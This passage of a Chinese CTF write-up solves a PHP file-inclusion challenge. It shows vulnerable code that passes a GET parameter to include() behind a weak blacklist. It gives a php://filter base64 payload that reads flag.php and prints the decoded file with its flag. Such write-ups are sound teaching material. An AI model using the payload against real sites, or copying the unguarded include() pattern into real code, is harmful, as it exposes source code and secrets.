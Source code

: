 ```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

php://filter与包含函数结合时，php://filter流会被当作php文件执行。所以我们一般对其进行编码，阻止其不执行。从而导致任意文件读取。

php://filter 伪协议文件包含读取源代码，加上read=convert.base64-encode，用base64编码输出，不然会直接当做php代码执行，看不到源代码内容。

## 0x7.[极客大挑战 2019]Secret File

有个action.php的文件，之后抓包访问，有个secr3t.php文件，访问：

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $file=$_GET['file'];
    if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
        echo "Oh no!";
        exit();
    }
    include($file); 
//flag放在了flag.php里
```

可以和上一题一样，php://filter

payload: ?file=php://filter/read=convert.base64-encode/resource=flag.php

解码:

```php+HTML
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <title>FLAG</title>
    </head>

    <body style="background-color:black;"><br><br><br><br><br><br>
        
        <h1 style="font-family:verdana;color:red;text-align:center;">啊哈！你找到我了！可是你看不到我QAQ~~~</h1><br><br><br>
        
        <p style="font-family:arial;color:red;font-size:20px;text-align:center;">
            <?php
                echo "我就在这里";
                $flag = 'flag{2c021ef6-68a2-4674-bf4d-ca928f144327}';
                $secret = 'jiAng_Luyuan_w4nts_a_g1rIfri3nd'
            ?>
        </p>
    </body>
</html>

```
